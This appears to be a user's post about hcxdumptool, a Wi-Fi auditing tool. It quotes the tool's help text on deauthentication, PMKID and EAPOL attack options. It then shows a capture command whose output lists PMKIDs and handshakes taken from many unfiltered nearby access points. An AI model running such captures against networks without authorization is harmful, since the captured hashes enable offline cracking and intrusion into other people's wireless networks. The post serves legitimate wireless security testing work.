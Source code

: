 ```bash
                                     affected: connections between client an access point
                                     deauthentication attacks will not work against protected management frames
--disable_disassociations          : disable transmitting disassociations
                                     affected: retry (EAPOL 4/4 - M4) attack
--disable_ap_attacks               : disable attacks on single access points
                                     affected: client-less (PMKID) attack
--give_up_ap_attacks=<digit>       : disable transmitting directed proberequests after n tries
                                     default: 100 tries (minimum: 4)
                                     affected: client-less attack
                                     deauthentication attacks will not work against protected management frames
--disable_client_attacks           : disable attacks on single clients
                                     affected: ap-less (EAPOL 2/4 - M2) attack
--do_rcascan                       : show radio channel assignment (scan for target access points)
                                     you should disable auto scrolling in your terminal settings
--save_rcascan=<file>              : output rca scan list to file when hcxdumptool terminated
--save_rcascan_raw=<file>          : output file in pcapngformat
                                     unfiltered packets
                                     including radiotap header (LINKTYPE_IEEE802_11_RADIOTAP)
--enable_status=<digit>            : enable status messages
                                     bitmask:
                                     1: EAPOL
                                     2: PROBEREQUEST/PROBERESPONSE
                                     4: AUTHENTICATON
                                     8: ASSOCIATION
--help                             : show this help
--version                          : show version

```

I figured it out

```bash
pi@raspberrypi:~ $ sudo hcxdumptool -i wlan0mon -o test.pcapng --enable_status 1

start capturing (stop with ctrl+c)
INTERFACE:...............: wlan0mon
FILTERLIST...............: 0 entries
MAC CLIENT...............: fcc23344943a (client)
MAC ACCESS POINT.........: 00182555bc46 (start NIC)
EAPOL TIMEOUT............: 150000
REPLAYCOUNT..............: 65152
ANONCE...................: e635323d909d8b276972d7c679395d5e088b0c2fe9068f660d75c53699477980

[20:32:34 - 001] ac5d10006b96 -> 000d4ba0fbfd [FOUND PMKID]
[20:32:34 - 001] ac5d10006b96 -> 000d4ba0fbfd [FOUND AUTHORIZED HANDSHAKE, EAPOL TIMEOUT 24559]
[20:32:35 - 001] 40b03473c8e0 -> 346b4648bc2a [EAPOL 4/4 - M4 RETRY ATTACK]
[20:32:35 - 001] b42a0e0f488b -> fcc23344943a [FOUND PMKID CLIENT-LESS]
[20:32:37 - 001] 289efc618a66 -> fcc23344943a [FOUND PMKID CLIENT-LESS]
[20:32:37 - 001] 1cc63c1d9277 -> 28187849d4fd [FOUND PMKID]
[20:32:48 - 005] 90489aeae9a3 -> fcc23344943a [FOUND PMKID CLIENT-LESS]
[20:32:59 - 011] f82c182e4816 -> fcc23344943a [FOUND PMKID CLIENT-LESS]
[20:33:03 - 011] 94c1500c0e9e -> 2c3068e4dba1 [FOUND PMKID]
[20:33:03 - 011] 94c1500c0e9e -> 2c3068e4dba1 [FOUND AUTHORIZED HANDSHAKE, EAPOL TIMEOUT 21588]
[20:33:21 - 006] 9c3dcf96791b -> 88dea96707e5 [FOUND PMKID]
[20:33:21 - 006] 9c3dcf96791b -> 6837e9903faa [FOUND PMKID]
[20:33:21 - 006] 9c3dcf96791b -> 88dea96707e5 [FOUND AUTHORIZED HANDSHAKE, EAPOL TIMEOUT 13277]
[20:33:22 - 006] 1c1b68790ed0 -> fcc23344943a [FOUND PMKID CLIENT-LESS]
[20:33:23 - 006] 14edbbb260fa -> fcc23344943a [FOUND PMKID CLIENT-LESS]
[20:33:24 - 006] 9c3dcf96791b -> fcc23344943a [FOUND PMKID CLIENT-LESS]

```
